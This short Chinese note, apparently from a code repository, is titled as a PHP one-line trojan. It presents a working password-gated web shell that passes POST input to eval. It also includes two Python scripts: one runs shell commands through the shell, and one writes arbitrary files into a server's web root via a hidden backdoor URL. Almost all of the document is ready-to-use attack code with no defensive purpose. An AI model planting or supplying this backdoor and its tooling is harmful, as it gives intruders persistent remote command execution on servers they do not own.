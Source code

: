 # php---hash一句话木马

密码: hello，使用尽量换成复杂的密码  
```php
<?php if(sha1($_POST["pass"])=="aaf4c61ddcc5e8a2dabede0f3b482cd9aea9434d"){@eval($_POST["a"]);} ?>
```
也可以是 md5，不建议  

python 连接脚本：  
```python
# coding:utf8

import requests

url = 'http://127.0.0.1/index.php'
data = {
    'pass': 'hello',
    'a': "system('ls');"
}
res = requests.post(url, data=data)
print(res.content)
```

python 写文件：  
```python
# coding:utf8

import base64
import requests

backdoor_url = 'http://1.2.3.4/.backdoor.php'
src_file_path = 'D:/hello.php'
dst_file_path = 'var/www/html/hello.php'

base64_content = base64.b64encode(open(src_file_path).read())
data = {
    'pass': 'hello',
    'a': "$file='{}';$fopen=fopen($file,'wb');fputs($fopen,base64_decode('{}'));fclose($fopen);".format(dst_file_path, base64_content)
}
res = requests.post(backdoor_url, data=data)
```


2020/6/12  
